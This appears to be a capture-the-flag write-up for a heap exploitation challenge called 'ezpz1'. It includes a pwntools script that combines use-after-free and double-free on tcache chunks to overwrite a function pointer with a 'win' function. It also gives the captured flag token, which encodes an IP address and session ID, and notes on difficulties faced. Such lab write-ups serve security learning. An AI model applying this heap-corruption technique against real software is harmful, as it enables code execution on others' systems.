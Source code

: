 ``` 

# Have reference to the address of the hint function pointer
# after malloc
p.recvlines(9)
p.sendline(b'C')
p.sendline(b'1')
p.sendline(p32(hint_pointer))

# Have reference to the address of the hint function pointer
# after malloc
p.recvlines(10)
p.sendline(b'A')
p.sendline(b'2')
p.sendline(p32(hint_pointer))

# Malloc to return the freed chunk from tcache
p.recvlines(10)
p.sendline(b'A')
p.sendline(b'3')
p.sendline(b'')

#  Overwrite the hint function pointer with win
p.recvlines(10)
p.sendline(b'A')
p.sendline(b'4')
p.sendline(win)

p.recvlines(10)
p.sendline(b'H')
p.sendline(b'2')

p.interactive()
``` 
ezpz1
=========================== 
Flag: FLAG{eyJhbGciOiJIUzI1NiJ9.eyJjaGFsIjoiNy1lenB6MSIsImlwIjoiMTAzLjIxNi4xOTAuMzciLCJzZXNzaW9uIjoiOTAzZjY0YmUtOWUwMi00MTFkLTk4MzgtY2ExYTQ1NDk0MTFhIn0.bi2lpBgpK0mrLhjdI9DTCisv1g5cy7M5wosQn52qXHQ}

General overview of problems faced 
------------------------------------- 
1. Had to understand how system stores chunks in fastbins and tchache.
2. This challenge was a lot more complicated then the first one because two mallocs occur in one creation as well as two frees occur in one deletion.
3. The main idea was to overwrite the print question function with win. However, the problem comes in when we could only overwrite the question itself, rather than the print question function pointer.
4. A single use-after-free or double-free approach didn't work because of of the problems stated above. Here, I used a combination of use-after-free and double-free.
5. Thus, I spent a long time solving this since the forward pointers could be quite confusing when we are freeing the chunks. 
6. Had to reverse the binary plenty of time to view those malloced and free chunks so I could figure out when to use  use-after-free and double-free accordingly.
